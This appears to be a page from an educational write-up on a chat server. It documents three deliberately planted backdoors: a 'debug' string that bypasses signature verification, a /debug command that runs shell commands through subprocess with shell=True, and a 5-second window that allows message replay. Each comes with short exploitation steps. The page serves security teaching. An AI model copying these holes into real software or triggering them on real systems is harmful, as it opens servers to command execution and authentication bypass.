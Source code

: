 ## Backdoor and Vulnerability Analysis

### Educational Backdoor Implementation

#### Backdoor #1: Debug Mode Bypass
```python
# Debug mode implemented in server.py
# Trigger condition: meta field in USER_HELLO message contains specific string
if "debug" in str(env.get("payload", {}).get("meta", "")).lower():
    self.debug_mode = True
    
# Effect: Bypass signature verification, allow execution of debug commands
```

**Exploitation Method:**
```bash
# Send specially crafted USER_HELLO message
# Include "debug" string in meta field
# Server will activate debug mode, bypassing normal verification
```

#### Backdoor #2: Command Injection Vulnerability
```python
# Command injection implemented in server_backdoored.py
# When debug_mode is activated, /debug command can execute system commands
elif cmd == "/debug" and self.debug_mode:
    import subprocess
    result = subprocess.run(args, shell=True, capture_output=True, text=True)
```

**Exploitation Method:**
```bash
# First activate debug mode
# Then send: /debug whoami
# Server will execute whoami command and return result
```

#### Backdoor #3: Replay Attack Window
```python
# Modified duplicate message detection mechanism
# Originally should permanently store message hash, but changed to clear after 5 seconds
deduplication_window = 5  # seconds
# Allows attacker to replay messages from 5 seconds ago
```

**Exploitation Method:**
```bash
# Intercept legitimate message
# Wait for 5-second replay window to end
# Replay same message, server will accept as valid message
```

### Privilege Escalation Techniques
